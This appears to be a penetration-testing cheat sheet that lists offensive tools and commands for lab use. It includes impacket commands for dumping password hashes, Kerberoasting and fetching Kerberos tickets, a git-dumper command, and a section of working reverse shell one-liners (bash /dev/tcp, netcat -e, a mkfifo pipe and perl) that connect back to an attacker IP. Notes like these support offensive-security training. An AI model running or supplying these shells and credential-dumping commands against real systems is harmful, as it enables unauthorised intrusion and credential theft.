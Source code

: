 #### [impacket](https://github.com/fortra/impacket)
Impacket is a collection of Python classes for working with network protocols.

Kali default path: `/usr/share/doc/python3-impacket/examples`

Retrieving Kerberos Tickets
```shell
python3 GetNPUsers.py DOMAIN/USERNAME
```
Dump the hashes
```shell
python3 secretsdump.py DOMAIN/USERNAME:PASSWORD@IP
```
Kerberoasting
```shell
python3 GetUserSPNs.py DOMAIN/USERNAME:PASSWORD -dc-ip IP -request
```
#### [WADComs](https://wadcoms.github.io/#)
WADComs is an interactive cheat sheet, containing a curated list of offensive security tools and their respective commands, to be used against Windows/AD environments.

#### [git-dumper](https://github.com/arthaud/git-dumper)
A tool to dump a git repository from a website.
```
git-dumper http://bullybox.local/.git .
```

#### [SecLists](https://github.com/danielmiessler/SecLists/tree/master)
It's a collection of multiple types of lists used during security assessments, collected in one place.

### Reverse Shell via One-liner
```
sh -i >& /dev/tcp/$KaliIP/4444 0>&1
```
```
bash -c "bash -i >& /dev/tcp/192.168.45.232/80 0>&1"
bash -c "bash -i >& /dev/tcp/$KaliIP/4444 0>&1"
```
```
nc $kaliIP 80 -e /bin/sh
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.232 3306 >/tmp/f
```
#### perl
```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"$KaliIP:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
### [CyberChef](https://gchq.github.io/CyberChef/)
a web app for encryption, encoding, compression and data analysis.

